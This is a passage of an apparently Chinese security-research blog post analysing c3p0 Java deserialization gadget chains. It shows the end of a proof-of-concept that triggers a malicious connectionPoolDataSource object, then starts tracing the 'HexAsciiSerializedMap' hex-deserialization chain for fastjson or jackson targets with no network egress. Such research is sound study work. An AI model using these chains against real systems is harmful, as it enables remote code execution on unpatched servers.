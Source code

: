 ```
        Field connectionPoolDataSourceField = cl.getDeclaredField(&#34;connectionPoolDataSource&#34;);
        connectionPoolDataSourceField.setAccessible(true);
        connectionPoolDataSourceField.set(pds, new exp());

        Unser(pds);
    }
    public static void Unser(Object obj) throws IOException, ClassNotFoundException {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(obj);
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

#### 总结

url 链的不出网打法，但是需要 tomcat8 的依赖

### hex base

#### 调用链

如果不出网，而且是fastjson或jackson的情况，可以用这个Gadget，该利用链能够反序列化一串十六进制字符串，因此实际利用需要有存在反序列化漏洞的组件

定位到 `com.mchange.v2.c3p0.impl` 下的 `WrapperConnectionPoolDataSource` 类中 

其构造函数调用了 `C3P0ImplUtils.parseUserOverridesAsString` 方法

![image-20250316164856585](https://bu.dusays.com/2025/03/18/67d95ec45ab83.png)

跟进一下

```
public static Map parseUserOverridesAsString(String userOverridesAsString) throws IOException, ClassNotFoundException {
        if (userOverridesAsString != null) {
            String hexAscii = userOverridesAsString.substring(&#34;HexAsciiSerializedMap&#34;.length() &#43; 1, userOverridesAsString.length() - 1);
            byte[] serBytes = ByteUtils.fromHexAscii(hexAscii);
            return Collections.unmodifiableMap((Map)SerializableUtils.fromByteArray(serBytes));
        } else {
            return Collections.EMPTY_MAP;
        }
    }
```

先是调用 `fromHexAscii`将其传入的 `userOverridesAsString` 16进制解码，再用 `fromByteArray` 将其转换为map类，其输入必须满足`HexAsciiSerializedMap{xxx}` 的格式，其中`{`和`}`用其他任意字符代替均可

跟进看下 `fromByteArray` 的实现
